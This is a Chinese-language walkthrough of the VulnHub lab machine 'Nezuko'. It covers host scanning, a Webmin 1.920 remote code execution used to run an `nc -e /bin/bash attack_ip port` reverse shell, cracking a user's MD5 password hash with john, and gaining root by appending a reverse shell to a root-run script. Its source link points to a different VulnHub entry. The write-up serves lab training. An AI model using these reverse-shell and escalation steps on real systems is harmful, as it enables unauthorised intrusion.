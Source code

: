 # Nezuko

## Information
**Nezuko** is a vulnerable machine created by [VulnHub](https://www.vulnhub.com/entry/jarbas-1,232/).

## 思路
**0x01 信息搜集**
`arp-scan -l` 扫描局域网内存活的主机
`nmap -p- -A`扫描目标主机上开放的服务

![](./images/Nezuko/Nezuko_1.png)

发现目标主机上开放了22、80和13337端口，检查80端口后未发现异常，查看13337端口

![](./images/Nezuko/Nezuko_2.png)

结合nmap扫描情况，可以知道是1.920版本的Webmin，通过在网上搜索可以发现针对该版本的一个远程代码执行的漏洞。

写入`nc -e /bin/bash attack_ip port`，并且在自身主机上监听设定的port端口。
反弹成功之后，得到一个普通用户nezuko的shell，通过查看/home目录下的文件夹发现还有一个zenitsu的用户。

使用 `python-c 'import pty;pty.spawn("/bin/bash")'`
在/home/nezuko目录下的nezuko.txt文件中发现第一个flag

查看from_zenitsu目录下的文件，发现有很多按日期命名的文件，并且文件属于root用户，怀疑是由zenitsu用户发送过来的，接着横向提权到zenitsu

![](./images/Nezuko/Nezuko_3.png)

cat /etc/passwd，找出zenitsu的密码，密码是经过MD5加密的，使用john进行暴力破解后，得到用户密码。

![](./images/Nezuko/Nezuko_4.png)

同样在/home/zenitsu目录下发现了zenitsu.txt文件，里面有第二个flag

查看/home/zenitsu/to_nezuko目录下的sh文件，发现内容为给nezuko的用户目录写入文件

![](./images/Nezuko/Nezuko_5.png)

经过前面的分析可以知道，该脚本应该是以root身份运行的，那么我们把想要以root身份执行的命令写入到该脚本中，则可以获得root权限。

在该sh脚本后面追加shell反弹命令，并且在本地主机上进行监听，等待5分钟之后，将会得到一个root命令的shell。

然后去到/root目录下面，发现会有一个root.txt文件，打开文件后得到第三个flag。
